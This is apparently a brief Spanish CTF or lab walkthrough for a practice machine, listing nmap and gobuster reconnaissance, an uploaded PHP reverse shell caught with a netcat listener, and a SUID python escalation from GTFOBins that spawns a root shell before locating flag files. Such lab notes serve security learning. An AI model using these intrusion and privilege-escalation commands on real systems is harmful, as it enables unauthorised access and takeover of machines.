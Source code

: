 ```yaml
---
draft: "true"
---
```


# Reconocimiento
Nmap 
`nmap -sV $IP`
`gobuster dir -u $IP -w /usr/share/wordlist/dirb/small.txt`
# Explotación

He subido una reverse shell de PHP de pentest monkey.
[[php-reverse-shell.php]]
`nc -lvp 2222`
`find / -type f -name user.txt`

# Escalada de privilegios

He buscado por SUID activado.
`find / -user root -perm /4000 2>/dev/null`

He encontrado python
Me he metido en gtfbins y lo busque.
https://gtfobins.github.io/gtfobins/python/#suid
`./python -c 'import os; os.execl("/bin/sh", "sh", "-p")

`find / -type f -name root.txt`